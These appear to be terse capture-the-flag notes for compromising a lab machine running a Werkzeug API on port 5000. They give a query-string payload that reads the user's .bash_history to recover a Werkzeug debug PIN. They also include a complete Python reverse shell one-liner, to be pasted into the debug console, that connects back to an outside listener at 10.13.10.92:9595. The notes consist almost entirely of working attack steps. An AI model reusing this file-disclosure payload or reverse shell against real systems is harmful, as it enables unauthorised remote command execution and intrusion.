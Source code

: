 # Ports
22      SSH
890     HTTP
5000    Werkzeug *VULNERABLE*
# API
http://10.10.67.175:5000/api/v1/resources/books 

# Payload
http://10.10.67.175:5000/api/v1/resources/books?show=.bash_history
cd /home/sid whoami export WERKZEUG_DEBUG_PIN=123-321-135 echo $WERKZEUG_DEBUG_PIN python3 /home/sid/api.py ls exit

# Reverse in "/console"
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.10.92",9595));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);